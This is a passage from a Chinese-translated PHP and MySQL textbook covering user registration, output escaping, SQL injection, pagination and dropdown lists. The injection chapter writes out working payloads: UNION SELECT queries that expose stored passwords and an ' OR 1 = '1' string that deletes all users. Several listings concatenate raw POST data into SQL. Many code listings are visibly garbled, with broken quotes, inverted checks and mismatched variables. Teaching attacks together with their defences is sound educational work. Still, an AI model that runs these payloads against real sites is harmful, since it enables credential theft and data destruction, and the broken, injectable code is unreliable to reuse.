// 检查提供的名称
// 是否已在使用
$arr = file($filename);
foreach($arr as $line) {
    // 在 :: 分隔符处拆分行
    $data = explode("::", $line);
    // 将已注册用户的名称
    // 放入 $temp 数组中
    $temp[] = $data[0];
}
// 检查当前名称
// 是否在 $temp 数组中
if(in_array($_POST['name'], $temp)) {
    exit("用户名已被占用。请选择另一个。");
}
// 用户注册区块
// 将数据写入文本文件
$fd = fopen($filename, "a");
if(!$fd) exit("打开文件错误!");
$str = $_POST['name']."::".
      $_POST['pass']."::".
      $_POST['email']."::".
      $_POST['url']."::".\r\n;
fwrite($fd,$str);
fclose($fd);
// 刷新页面以清除 POST 数据
echo "<HTML><HEAD>
<META HTTP-EQUIV = 'Refresh' = 0; URL = \$_SERVER['PHP_SELF']>
</HEAD></HTML>";?>
```

如列表 II.3.30 所示，处理程序由以下三个区块组成：
- 数据验证区块
- 检查名称是否已被占用的区块
- 用户注册区块

数据验证区块检查所需的字段（用户名和密码）是否已填写、密码是否匹配，以及输入的任何邮箱地址格式是否正确。

第二个区块打开 `text.txt` 文件并从中读取已注册用户的名称。如果新用户输入的名称与文件中的某一个名称匹配，脚本的执行将中断，并建议用户选择另一个名称。

最后一个区块使用 `test.txt` 文件格式化配置中的数据行，并将此记录附加到文件中。之后，脚本将重新加载以清零 POST 数据。如果不进行刷新，当用户刷新页面时，向 `test.txt` 文件添加数据的过程将重复。

现在，编写一个显示注册访问者列表及其数据的脚本已经准备就绪。该脚本可能看起来像列表 II.3.31 所示。

# 列表 II.3.31. 形成并显示用户列表

```php
<?php
// 数据文件的名称
$filename = "text.txt";
// 检查提供的名称
// 是否已在使用
$arr = file($filename);
foreach($arr as $line) {
// 在 :: 分隔符处拆分行
$data = explode("::",$line);
// 如果文件是在 Windows 中创建的，
// 最后元素将以 \r 结尾。
// 去掉它
$data[3] = trim($data[3]);
// 将已注册
// 用户的名称放入 $temp 数组中
echo "The name is " .htmlspecialchars($data[0])."<br>";?>
```

# ## 第 II.3 章：文件文件操作

```php
if(!empty($data[2])) echo "email - ".
    htmlspecialchars($data[2])."<br>";
if(!empty($data[3])) echo "URL - ".htmlspecialchars($data[3])."<br>";
    echo<br>";
```

对 `text.txt` 文件中的某行应用 `explode()` 函数会创建一个包含四个元素的 `$data` 数组。`data[0]` 元素持有用户名，`data[1]` 元素持有密码，`data[2]` 元素持有邮箱地址，`data[3]` 元素持有用户主页的 URL。`text.txt` 文件是使用 `\n` 字符序列以 Windows 格式形成的。然而，`explode()` 函数由 UNIX 风格的换行引导，它只使用 `\r` 字符序列。因此，为了去掉它，数组元素将以不可见的 `\r` 字符序列结尾。字符串将通过 `trim()` 函数处理，该函数会移除额外的开头和结尾字符。任何用户提供的变量必须通过 `htmlspecialchars()` 函数处理，该函数会将 HTML 标签转换为其 HTML 实体。此过程可以防止用户可能使用的的小花招，例如，输入一个指向他们网站的重定向（列表 II.3.32）而不是用户名。

# 列表 II.3.32. 重定向

```html
<META HTTP-EQUIVE='Refresh' CONTENT='0;URL=http://mysite.ru/>
```

此外，用户可以在用户名处输入 JavaScript 或类似的内容，而不是真正的用户名。即使使用正则表达式对输入数据进行检查，由 `htmlspecialchars()` 函数提供的保护也是无害的；因为总有你可能错过了脚本中的某些漏洞，而好奇的恶意分子会注意到。
`text.txt` 文件的结构如列表 II.3.33 所示。处理此文件的列表 II.3.31 脚本的结果可能与图 II.3.2 显示的结果相似。

# 列表 II.3.33. text.txt 文件

```
cheops::123::cheops@mail.ru::http://www.softtime.ru
igor::photon:::
simdyanov::simdyanov::simsimdyanov@softtime.ru::http://www.softtime.ru
```

# ## II.3.21. 输出随机文件

将所有文件名放入数组中可以减少向 `test.txt` 文件添加数据的任务（列表 II.3.34）。

# 列表 II.3.34. 输出随机文件

```php
<?php
// 路径
$path = "path_to/";
// 打开目录
$dir = opendir($path);
// 遍历目录内容
while(($file = readdir($dir)) != false)
{
    // 获取文件名
    $filename[] = $file;
}
// 关闭目录
closedir($dir);
// 选择随机索引
$index = rand(0, count($filename)) - 1;
// 显示随机的文件
echo $filename[$index];
?>
```

## 第 II.3 节：与文件操作

## 列表 II.3.37. 删除当前目录下的文件

为了防止此类情况发生，必须将角括号转换为 HTML 实体（例如将 `<` 转换为 `&lt;` 将 `>` 转换为 `&gt;`），可以使用 `htmlspecialchars()` 函数来实现（列表 II.3.38）。

## 列表 II.3.38. 过滤用户输入

```php
<?php
// 表单处理器
if(empty($_POST['name']) && empty($_POST['msg']))
{
    $_POST['name'] = htmlspecialchars($_POST['name']);
    $_POST['msg'] = htmlspecialchars($_POST['msg']);
    $Smsg = "<tr><td>".$$_POST['name']."</td></tr>\n";
    $Smsg .= "<tr><td>".$$_POST['msg']."</td></tr>\n";
}
// 打开文件并添加新记录
$fd = fopen("msg.txt", "a");
if($fd)
{
    fwrite($fd,$Smsg);
    fclose($fd);
}
// 输出已添加到文本文件的消息
echo "<table>";
?>
```

186 页 第二部分：解决方案

如果实施了此项保护措施，在消息正文中输入 JavaScript 或 PHP 脚本将只会作为普通文本显示在浏览器窗口中（图 II.3.3）。



图 II.3.3. 将角括号转换为其 HTML 实体

## 第 II.4 节：MySQL 与 SQL 注入


### II.4.1. 注册新用户系统

组织注册系统涉及为用户提供一个 HTML 表单以输入所需信息。输入信息后，将检查其是否符合要求。最后，检查给定的用户名是否已被占用，如果未被，则将新用户添加到数据库。列表 II.4.1 显示了一个用于执行所有这些过程的脚本示例。

### 列表 II.4.1. 在数据库中注册新用户

```html
<table>
<form method="post">
<tr><<td>>Name:</td><td><input type="text" name="name"></td></tr>
```


<tr><<td>>Password:</td><td><input type="password" name="pass"></td></tr>

<tr><<td>>Confirm password:</td><td><input type="password" name="pass_again"></td></tr>

<tr><<td>>email:</td><td><input type="text" name="email"></td></tr>

<tr><<td>>URL:</td><td><input type="text" name="url"></td></tr>

<tr><td></td><td><input type="submit" value='Register'></td></tr>

</form>

</table>

```
```php

<?php

// HTML 表单处理器

//////////////////////////////////////////////////////////////////////

// 数据验证块

//////////////////////////////////////////////////////////////////////

// 去除多余空格

$_POST['name'] = trim($_POST['name']);

$_POST['pass'] = trim($_POST['pass']);

$_POST['pass_again'] = trim($_POST['pass_again']);

// 检查 $_POST 数组是否为空

if(empty($_POST['name'])) exit();

// 检查必需字段是否正确填写

if(empty($_POST['name'])) exit(' "Name" 字段未填写!');

if(empty($_POST['pass'])) exit('两个 "Password" 字段都必须填写!');

if(empty($_POST['pass_again'])) exit('两个 "Password" 字段都必须填写!');

if($_POST['pass'] != $_POST['pass_again']) exit('密码不匹配！');

// 如果提供了电子邮箱地址，检查其格式

if(empty($_POST['email'])) {

    if(!preg_match('/^[0-9a-z._%+-]+@[0-9a-z._-]+\.[a-z]{2,6}$/i', $_POST['email'])) {

        exit(' "email" 地址格式必须符合 somebody@somewhere.com 格式。');

    }

}

// 如果服务器未开启魔幻引用（magic quotes）

// 使用 mysql_escape_string() 函数处理输入数据

if (!get_magic_quotes_gpc()) {

    $_POST['name'] = mysql_escape_string($_POST['name']);

    $_POST['pass'] = mysql_escape_string($_POST['pass']);

    $_POST['email'] = mysql_escape_string($_POST['email']);

    $_POST['url'] = mysql_escape_string($_POST['url']);

}

```
## 第 II.4 节：MySQL 与 SQL 注入
```php

//////////////////////////////////////////////////////////////////////

// 检查用户名是否已占用的块

//////////////////////////////////////////////////////////////////////

// 连接数据库

require_once("config.php");

// 检查提供的

// 名称是否已在使用

$query = "SELECT COUNT(*) FROM userslist WHERE name = '" . $_POST['name'] . "';";

$usr = mysql_query($query);

if(!$usr) exit("错误 - " . mysql_error());

$total = mysql_result($usr, 0);

if ($total > 0) { exit("该用户名已被占用"); }

//////////////////////////////////////////////////////////////////////

// 插入新用户

//////////////////////////////////////////////////////////////////////

// 构造 SQL 查询

$query = "INSERT INTO userslist

    VALUES (NULL,

    '" . $_POST['name'] . "',

    '" . $_POST['pass'] . "',

    '" . $_POST['email'] . "',

    '" . $_POST['url'] . "')";

// 执行查询

if(mysql_query($query)) {

    // 注册成功

    echo "注册成功！";

} else {

    // 输出错误

    exit("注册失败: " . mysql_error());

}

```

# 第二部分：解决方案



图 II.4.2. 显示键为 1 的用户信息

然而，第一个结果之所以被显示，是因为 `mysql_fetch_array()` 只被调用了一次；因此，所有后续请求都被忽略了。攻击者面临的主要任务是在浏览器窗口中显示 `UNION` 构造中第二个查询的结果，因为第一个查询无法无法的。这个任务可以通过两种方式解决。第一种为第一个查询构造一个永远为假的条件。这可以通过将 `id_user` 设置为负值来实现。由于主键只能有正值，此操作确保了第一个请求不会返回任何记录。

# 列表 II.4.5. 抑制第一个查询的结果

```
SELECT * FROM userslist WHERE id_user = -1
UNION
SELECT * FROM userslist WHERE id_user = 2
```

列表 II.4.5 所示的 SQL 注入查询可能如下：
user.php?id_user=-1%20UNION%20SELECT%20*%20FROM%20userslist%20WHERE%20id%20user%20%202

此注入执行了 `UNION` 构造中的第二个 `SELECT` 查询，输出主键为 2 的用户信息（图 II.4.3）。

在某些情况下，上述技术无法将控制权交给 `SELECT` 查询。因此，使用 `ORDER BY` 构造对两个查询的结果进行排序，使得注入结果位于第一个位置。在给定的示例中，可以通过 `id_user` 参数按降序排序。操作通过在 `UNION` 构造之后放置 `ORDER BY id_user DESC` 构造来实现（列表 II.4.6）。

*

# 第 II.4 节：MySQL 与 SQL 注入



图 II.4.3. 将控制权交给 `UNION` 构造中的第二个 `SELECT` 查询

# 列表 II.4.6. 排序查询

```
SELECT * FROM userslist WHERE id_user = 1
UNION
SELECT * FROM userslist WHERE id_user = 2
ORDER BY id_user DESC
```

注入的 `SELECT` 查询结果已显示，你可以继续执行在浏览器窗口中显示密码的任务。这是通过将第二个查询中的星号 `*` 扩展为相应的表列来实现的（列表 II.4.7）。

# 列表 II.4.7. 扩展注入查询中的星号

```
SELECT * FROM userslist WHERE id_user = 1
UNION
SELECT id_user, name, pass, email, url FROM userslist WHERE id_user = 2
ORDER BY id_user DESC
```

扩展列数数与第一个 `SELECT` 查询的列数相同；否则请求将被拒绝。然而，由于 `name` 和 `pass` 字段都是文本类型，它们的位置可以互换（列表 II.4.8）。

# 列表 II.4.8. 交换 `name` 字段与 `pass` 字段的位置

```
SELECT * FROM userslist WHERE id_user = 1
UNION
SELECT id_user, pass, name, email, url FROM userslist WHERE id_user = 2
ORDER BY id_user DESC
```

由于字段名是由第一个查询生成的，因此密码中的字段被交换到了用户名字段（图 II.4.4）。



图 II.4.4. 在浏览器窗口中显示密码

`UNION` 语句只能与 `SELECT` 查询一起使用；因此这种类型的 SQL 注入本身不是破坏性的。然而，如果它获取了控制面板的密码，其后果是不言而喻的。

为了防止使用此类 SQL 注入进行的潜在侵入，必须使用正则表达式对所有数字参数进行仔细检查。在本例中，可以使用表达式 `|[^\d]+$`，该表达式在 II.2.8 节中进行了详细讨论。

# 列表 II.4.9. 防御 SQL 注入攻击
```php

<?php

// 连接数据库

require_once("config.php");

// 检查 id_user 参数，必须只包含数字

if(!preg_match("/^\d+$/", $_GET['id_user'])) {

    exit("Incorrect format");

}

// 请求用户列表

$query = "SELECT * FROM userslist WHERE id_user = " . $_GET['id_user'];

$usr = mysql_query($query);

if(!$usr) {

    exit("Error - " . mysql_error());

}

$user = mysql_fetch_array($usr);

echo "The user name is " . $user['name'] . "<br>";

echo "email - " . $user['email'] . "<br>";

echo "url - " . $user['url'] . "<br>";

?>

```

## 第 II.4 章：MySQL 与 SQL 注入 199


图 II.4.8. 用户列表及其密码

# 列表 II.4.15. SQL 注入防御
```php

<table
<form method=post>

<tr><td>Name:</td><td><input type="text" name="name" value="<?php $_POST['name']?></td></td></tr>

<tr><td>&nbsp;</td><td><input type="submit" value='Search'></td></tr></tr>

</form>

</table>

<?php

if(!empty($_POST)) {

    // 连接到数据库

    require_once("config.php");

    // 检查 name 字段的内容

    if(!preg_match('/^[^\'\\\]+$/',$_GET['name'])) {

        exit("Illegal query format");

    }

    // 查找名为 $_POST['name'] 的用户

    $query = "SELECT * FROM userslist
WHERE name
LIKE '$_POST[name]'
ORDER BY name";

$user = mysql_query($query);

if (!$user) exit("Error - ".mysql_error());

while ($user = mysql_fetch_array($user))
{

    echo "The user name is - $user[name]<br>";

}

?>

```

虽然这种保护在这种情况下是有效的（图 II.4.9），但在 Web 应用中，问题往往无法通过禁止单引号来解决，至少因为合法用户可能需要使用它们。


**图 II.4.9.** 使用正则表达式防止 SQL 注入攻击

正如第 II.4.1 节所述，可以使用 `mysql_escape_string()` 函数对引号标记进行转义，但如果服务器上启用了 `magic-quotes` 魔法引号模式，则使用该函数是多余的。你可以通过应用 `get_magic_quotes_gpc()` 函数来确定是否启用了魔法引号模式，如果启用该该函数返回 `true`，否则返回 `false`。使用 `mysql_escape_string()` 函数防止 SQL 注入攻击的脚本可能如列表 II.4.16 所示。

## 第 II.4 章：MySQL 与 SQL 注入 201

列表 II.4.16. 转义引号
```php

<table
<form method=post>

<tr><td>Name=</</td><td><input type="text" name="name" value="<?php
$_POST['name'] ?></td></td></tr>

<tr><td>&nbsp;</td><td><input type="submit" value='Search'></td></tr></tr>

</form>

</table>

```
```php

<?php

if(!empty($_POST)) {

    // 连接到数据库

    require_once("config.php");

    // 如果没有启用魔法引号模式，

    // 使用 mysql_escape_string() 函数

    // 处理 $_POST['name'] 字段

    if(!get_magic_quotes_gpc()) {

        $_POST['name'] = mysql_escape_string($_POST['name']);

    }

    // 查找名为 $_POST['name'] 的用户

    $query = "SELECT * FROM userslist
              WHERE name
              LIKE '$_POST[name]%'
              ORDER BY name";

    $usr = mysql_query($query);

    if(!$usr) exit(mysql_error());

    while($user = mysql_fetch_array($usr)) {

        echo "The user name is - $user[name]<br>";

    }

}

?>

```

由于该脚本的存在，注入查询被视为包含部分名称的普通字符串。因此，不会显示任何记录（图 II.4.10）。

## II.4.5. 用户删除与 SQL 注入

此问题中的漏洞与上一个问题的漏洞相似：在 SQL 请求中使用用户提供的数据时未对其进行清理。然而，`UNION` 构造无法用于利用此漏洞，因为它只对 `SELECT` 查询有效。在这里，更改 WHERE 构造逻辑就能达到目的。删除用户的 SQL 查询如列表 II.4.17 所示。

列表 II.4.17. 删除用户的 SQL 查询
```sql

DELETE FROM userslist
WHERE pass = 'password' AND
name = 'name'

```

通过将所选参数的值替换为字符串 `' OR 1 = '1'`，可以使用密码或用户名传递注入查询。

列表 II.4.18. 注入查询
```sql

DELETE FROM userslist
WHERE pass = 'password' AND
name = '' OR 1 = '1'

```

这种这样篡改的 WHERE 条件始终返回真，从而删除 `userslist` 中的所有记录（图 II.4.11）。


## 第 II.4 章：MySQL 与 SQL 注入 203


图 II.4.11. 修改后的 WHERE

与上一个问题一样，如果服务器上启用了魔法引号模式，这将不起作用。

要从数据库中删除所有用户，攻击者不需要知道任何信息（列表 II.4.19）。

### 列表 II.4.19. 限制删除次数
```sql


`DELETE FROM userslist`

`WHERE pass = 'password' AND`

`name = '' OR 1 = '1'`

## II.4.6. 页面导航

MySQL 中的页面导航可以使用 `LIMIT` 语句来限制记录数量（列表 II.4.22）。

### 列表 II.4.22. 页面导航

```php
<?php
// 设置每页记录数
$number = 3;
// 连接到数据库
require_once("config.php");
// 构造查询以提取
// 目录列表
$query = "SELECT * FROM catalogs";
$cat = mysql_query($query);
if (!$cat) exit(mysql_error());
while ($catalog = mysql_fetch_array($cat)) {
  // 显示目录的链接
  echo "<a href=\$SERVER['PHP_SELF']?id_catalog=$catalog['id_catalog']\">$catalog['name']</a><br>";
}
echo "<a href=\$SERVER['PHP_SELF']?id_catalog=0>All items</a><br>";
```

## 204 第二部分：解决方案

```php
if(isset($_GET['page'])) $page = $_GET['page'];
else $page = 1;
// 初始位置
$start = (($page - 1)*$number + 1);
if ($_GET[id_catalog] != 0) 
$where = "WHERE id_catalog = $_GET[id_catalog]";
else $where = "";
// 构造查询以提取
// 当前目录中的项目
$query = "SELECT * FROM products
$where
ORDER BY price
LIMIT $start, $pnumber";
$prd = mysql_query($query);
if (!$prd) exit(mysql_error());
// 如果当前目录包含
//至少一个项目，则显示项目
if(mysql_num_rows($prd) > 0) {
    echo "<table border = 1>
        <tr>
            <td>Product Name</td>
            <td>Price</td>
        </tr>
        while($product = mysql_fetch_array($prd)) {
            echo "<tr>
                <td>$product[name]</td>
                <td>$product[price]</td>
            </tr>";
        }
    echo "</table>";
}
// 页页数
$query = "SELECT COUNT(*) FROM products $where";
$stot = mysql_query($query);
if(!$stot) exit(mysql_error());
```

## 第二 II.4 章：MySQL 与 SQL 注入 207

```php
$total = mysql_result($tot,0);
$number = (int) ($total/$pnumber);
if((float) ($total/$pnumber) - $number != 0) $number++;
// 输出页码
for($i = 1; $i <= $number; $i++)
{
    if($i != $number)
    {
        if($page == $i)
        {
            echo "[.($i - 1)*$pnumber + 1).".$i*$pnumber].&nbsp";
        }
    else
    {
        echo "<a href=$SERVER['PHP_SELF']?id_catalog=\.page=\.i.">
            $GET['id_catalog']&page=\.i.".
            (($i - 1)*$pnumber + 1)."-"
            $i*$pnumber."></a>&nbsp";
        }
    }
    if($page == $i)
    {
        echo "[.($i - 1)*$pnumber + 1).-($total - 1).".&nbsp";
    }
    else
    {
        echo "<a href=$SERVER['PHP_SELF']?id_catalog=\.page=\.i.">
            $GET['id_catalog']&page=\.i.".
            (($i - 1)*$pnumber + 1)."-"
            ($total - 1)."></a>&nbsp";
    }
}
}
?>
```

### II.4.7. 字母导航

字母排序问题可以通过从 `products` 表中提取备件名称的首字母，并使用 `GROUP` 构造对其进行分组来解决。列表 II.4.23 显示了执行此操作的查询。

#### 列表 II.4.23.提取备件名称首字母的查询

```sql
SELECT SUBSTRING(name, 1, 1) AS letter
FROM products
GROUP BY letter
ORDER BY letter
```

接下来，得到的字母用于形成链接，并通过 GET 参数传递所选字母。选择所有以所选字母开头的项目名称的查询如列表 II.4.24 所示。

#### 列表 II.4.24.选择以指定字母开头的项目的查询

```sql
SELECT * FROM products
WHERE SUBSTRING(name, 1, 1) = 'D'
ORDER BY price
```

列表 II.4.25 显示了结合这两个查询的脚本。

#### 列表 II.4.25. 字母排序输出

```php
<?php
// 连接数据库
require_once("config.php");
// 构造查询以提取备件名称的
// 首字母
$query = "SELECT SUBSTRING(name, 1, 1) AS letter
FROM products
GROUP BY letter
ORDER BY letter";
$prd = mysql_query($query);
if(!$prd) exit(mysql_error());
```

## 第二 II.4 章：MySQL 与 SQL 注入 209

```php
// 如果存在给定字母的项目，
// 显示它们
if (mysql_num_rows($prd) > 0)
{
    while ($product = mysql_fetch_array($prd))
    {
        echo "<a href=\$SERVER['PHP_SELF']?letter=$product['letter']\">$product['letter']</a>";
    }
}
```

```php
// 如果传递了单字母参数，
// 显示表格内容
if (preg_match("^[a-z]$/i", $_GET['letter']))
{
    // 显示备件列表
    $query = "SELECT * FROM products
    WHERE SUBSTRING(name,1,1) = '$GET['letter']'
    ORDER BY price";
    $prd = mysql_query($query);
    if(!$prd) exit (mysql_error());
    // 如果当前目录包含至少
// 一个项目，显示该项目
    if (mysql_num_rows($prd) > 0)
    {
        echo "<br><table border=1>
        <tr>
        <td>Product Name</td>
        <td>Price</td>
        </tr>";
        while($product = mysql_fetch_array($prd))
        {
            echo "<tr>
            <td>\$product['name']</td>
            <td>\$product['price']</td>
        </tr>";
        }
        echo "</table>";
    }
}
```

### II.4.8. 排序

SQL 查询请求的结果使用 `ORDER BY` 语句后跟列名按升序排序。指定可选的 `DESC` 关键字将导致结果按降序排序。因此，解决问题的关键在于构造一个 SQL 查询，并在 `ORDER BY` 语句之后动态添加用于对结果排序的列名。该查询可能是：

```sql
SELECT * FROM products
ORDER BY $order $desc
```

在这里，`order` 变量持有用于结果排序的列名。根据排序顺序，`desc` 变量的值为空或设置为 `DESC`。

### II.4.26. 排序

```php
<?php
// 检查传递给脚本的参数
$order = "name";
if($_GET['order'] == 'name') $order = "name";
if($_GET['order'] == 'price') $order = "price";
if($_GET['order'] == 'grade') $order = "grade";
if($_GET['order'] == 'count') $order = "count";
if($_GET['add'] == 'desc')
{
    $desc = "DESC";
    $add = "";
}
else
{
    $desc = "";
    $add = "desc";
}
// 连接数据库
require_once("config.php");
// 显示备件列表
$query = "SELECT * FROM products
ORDER BY $order desc";
$prd = mysql_query($query);
if(!$prd) exit(mysql_error());
// 如果当前目录包含至少
// 一个项目，显示该项目
if(mysql_num_rows($prd) > 0) {
    echo "<table border=1>
<tr>
<td><a href=\"\$SERVER['PHP_SELF']?order=name&add=$add\">Name</a></td><td><a href=\"\$SERVER['PHP_SELF']?order=price&add=$add\">Price</a></td><td><a href=\"\$SERVER['PHP_SELF']?order=grade&add=$add\">Grade</a></td><td><a href=\"\$SERVER['PHP_SELF']?order=count&add=$add\">Qty</a></td>";
}
```

### II.4.9. 双重下拉列表

在脚本开始时，检查传递的参数。

```php
<?php
// 连接数据库
require_once("config.php");
// HTML 表单的开始
echo "<form method=post>";
// 形成第一个下拉列表
$query = "SELECT * FROM catalogs
ORDER BY name";
$cat = mysql_query($query);
if(!$cat) exit(mysql_error());
// 如果至少有一个记录，
// 形成下拉列表
if(mysql_num_rows($cat) > 0) {
    echo "<select name=id_catalog onChange='this.form.submit()'>";
    echo "<option value=0>No item selected.</option>";
    while($catalog = mysql_fetch_array($cat)) {
	if($_POST['id_catalog'] == $catalog['id_catalog']) {
		$selected = "selected";
	}
```

```php
else $selected = "";
echo "<option value \$catalog['id_catalog'] \$selected
\$catalog['name']</option>";
}
echo "</select>";
}
```

```php
// 检查 id_catalog 是否为整数
if (preg_match('/^\d+$/', $_POST['id_catalog']))
{
    // 形成第二个下拉列表
    $query = "SELECT * FROM products
    WHERE id_catalog = $_POST[id_catalog]
    ORDER BY name";
}
$prd = mysql_query($query);
if (!$prd) exit(mysql_error());
// 如果当前目录包含至少
// 一个项目，形成下拉列表
if (mysql_num_rows($prd) > 0)
{
    echo "<select name=id_product onchange='this.form.submit()'>";
    while ($product = mysql_fetch_array($prd))
    {
        echo "<option value = \$id_product>
\$product['name']</option>";
    }
    echo "</select>";
}
```

```php
// HTML 表单的结束
echo "</form>";
?>
```

列表 II.4.27 中方法的缺点之一是必须刷新页面。解决此问题的另一种方法是预先加载第二个下拉列表的所有版本，并在选择第一个下拉列表的项目时使用 JavaScript 显示它们。

# 214 第二部分：解决方案

为此，在构建第一个列表时，会创建一个名为 `$array_catalog` 的主键数组，用于 `catalogs` 表。该数组用于形成一个 JavaScript 数组（列表 II.4.28）。

## 列表 II.4.28. 构建 JavaScript 数组

```javascript
<script language='JavaScript1.1' type='text/javascript'>
<!--
var messageIdList = new Array<?= implode(",", $array_catalog) ?>);
-->
</script>
```

在最终的 HTML 页面中，该数组将如下：

```
var messageIdList = new Array(3, 4, 2, 5, 1);
```

该列表用于隐藏和显示第二个下拉列表的不同版本。列表的每个版本被称为 `product$i`，其中 `$i` 从 `messageIdList` 数组中顺序取值。此外，每个下拉列表都设置了 `$id` 属性，该值与当前数字 `$i` 相同。这使得 JavaScript 更容易访问该列表。要隐藏下拉列表，必须将 `<select>` 标签的 `style` 属性值设置为 `display:none;`；要显示列表，则将 `style` 值设置为 `display:block;`。在显示选定的列表之前，必须隐藏所有列表，以便在任何时刻只显示第二个下拉列表的版本。这一操作通过第一个下拉列表的 `onchange` 事件处理器来完成。

## 列表 II.4.29. 第一个下拉列表的 change 事件处理器

```javascript
<script language='JavaScript1.1' type='text/javascript'>
<!--
var messageIdList = new Array<?= implode(",", $array_catalog) ?>);
function show(sel)
{
  for (i = 0; i < messageIdList.length; i++)
  {
    document.getElementById(messageIdList[i]).style.display = "none";
  }
  var selectedVal = sel.options[sel.selectedIndex].value;
document.getElementById(selectedVal).style.display = "block";
}
<!---->
<script>
```


## 第 II.4 节：MySQL 与 SQL 注入

所有的下拉列表都在一个 `for` 循环中隐藏，然后显示选定的列表。用于构建 HTML 表单的 PHP 代码可能如列表 II.4.30 所示。

### 列表 II.4.30. 构建双重下拉列表

```php
<?php
// 连接到数据库
require_once("config.php");
// HTML 表单的开始
echo "<form action=3.php method=post>";
// 构建第一个下拉列表
$query = "SELECT * FROM catalogs\nORDER BY name";
$cat = mysql_query($query);
if (!$cat) {echo mysql_error();}
// 如果至少有一个记录，
// 构建下拉列表
if (mysql_num_rows($cat) > 0) {
    echo "<select name = id_catalog\nchange = 'show(this.form.id_catalog)'";
    echo "<option value = 0>No item selected.</option>";
    while ($catalog = mysql_fetch_array($cat)) {
        if ($_POST['id_catalog'] == $catalog['id_catalog']) {
            $selected = "selected";
        } else $selected = "";
        echo "<option value = \"$catalog['id_catalog']\" $selected>$catalog['name']</option>";
    }
}
// 为 catalogs 表构建主键数组
$array_catalog[] = $catalog['id_catalog'];
}
echo "</select>";
// 构建第二个下拉列表
```
```php
$query = "SELECT * FROM catalogs";
$cat = mysql_query($query);
if ($cat) exit(mysql_error());
// 如果至少有一个记录，
// 构建下拉列表
if (mysql_num_rows($cat) > 0)
{
    while ($catalog = mysql_fetch_array($cat))
    {
        // 构建隐藏列表
        $query = "SELECT * FROM products
WHERE id_catalog = $catalog[id_catalog]
ORDER BY name";
        $prd = mysql_query($query);
        if (!$prd) exit(mysql_error());
        // 如果当前目录包含至少一个项目，构建下拉列表
        if (mysql_num_rows($prd) > 0)
        {
            echo "<select id = $catalog[id_catalog] style=\"display:none\" product$catalog[id_catalog]\">\nwhile ($prd = mysql_fetch_array($prd))
            {
                if ($_POST['id_product'] == $prd['id_product'])
                {
                    $selected = "selected";
                } else $selected = "";
                echo "<option value = $prd[id_product] $selected $product[name]</option>";
            }
            echo "</select>";
        }
    }
    echo "</br><input type=submit name=send value=Send>";
}
// HTML 表单的结束
echo "</form>";
```

HTML 表单的处理器是 `3.php` 文件。尽管下拉列表没有显示在 HTML 页面上，但所有下拉列表的值都被放置在了全局变量 `$_POST` 数组中。通过将列表 II.4.31 中的处理器代码放入 `3.php` 文件，可以很容易地确认这一点。

### 列表 II.4.31. 3.php 处理器

```php
<?php
echo "<pre>";
print_r($_POST);
echo "</pre>";
?>
```

其执行结果可能如图 II.4.13 所示。


Array (

    [id_catalog] => 2

    [product1] => 1

    [product2] => 10

    [product3] => 19

    [product4] => 21

    [product5] => 26

    [send] => Send

)

图 II.4.13. 从 HTML 表单获取的 POST 数组内容（列表 II.4.30）

如图 II.4.13 所示，在第一个下拉列表中，项目对应 `catalogs` 表的主键 2。因此，只有值为 10 的产品列表带有意义信息。`$_POST` 数组的所有其他元素并不重要。

### II.4.10. 删除多个项目

要从 `products` 表中删除多个项目，必须构建以下 SQL 查询：

```sql
DELETE FROM products WHERE id_product IN (4, 6, 8, ..., 20)
```

该查询删除了所有 `id_product` 主键值匹配 `IN` 运算符中任一值的记录。

### II.4.32. 从 products 表中删除多个项目

```php
<?php
// 连接到数据库
require_once("config.php");
// 显示部分列表
$query = "SELECT * FROM products
ORDER BY name";
$prd = mysql_query($query);
if(!$prd) exit(mysql_error());
// 如果当前目录包含至少一个项目，显示该项目
if (mysql_num_rows($prd) > 0)
{
    echo "<table border = 1>
    <tr>
    <td>&nbsp;</td>
    <td>Name</td>
    <td>Price</td>
    <td>Grade</td>
    <td>Qty</td>
